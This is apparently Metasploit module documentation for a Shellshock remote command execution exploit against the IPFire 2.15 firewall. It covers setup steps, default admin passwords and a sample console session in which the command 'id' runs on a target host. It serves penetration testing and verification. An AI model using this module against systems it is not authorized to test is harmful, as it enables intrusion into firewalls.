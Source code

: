 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.15-core82/ipfire-2.15.i586-full-core82.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_bashbug_exec```
  4. Do: ```set rhost 10.10.10.10```
  5. Do: ```set PASSWORD admin```
  6. Do: ```set CMD ls```
  7. Do: ```run```
  8. You should see the output of the command that was run.

## Options

### PASSWORD

  Password is set at install.  May be blank, 'admin', or 'ipfire'.
  
### CMD
  
  This is the command to run on the system.

## Scenarios

  Example of running the ID command
  ```
    msf > use exploit/linux/http/ipfire_bashbug_exec 
    msf exploit(ipfire_bashbug_exec) > set PASSWORD admin
    PASSWORD => admin
    msf exploit(ipfire_bashbug_exec) > set rhost 192.168.2.202
    rhost => 192.168.2.202
    msf exploit(ipfire_bashbug_exec) > set CMD id
    CMD => id
    msf exploit(ipfire_bashbug_exec) > exploit
    
    [+] uid=99(nobody) gid=99(nobody) groups=16(dialout),23(squid),99(nobody)
    [*] Exploit completed, but no session was created.
  ```
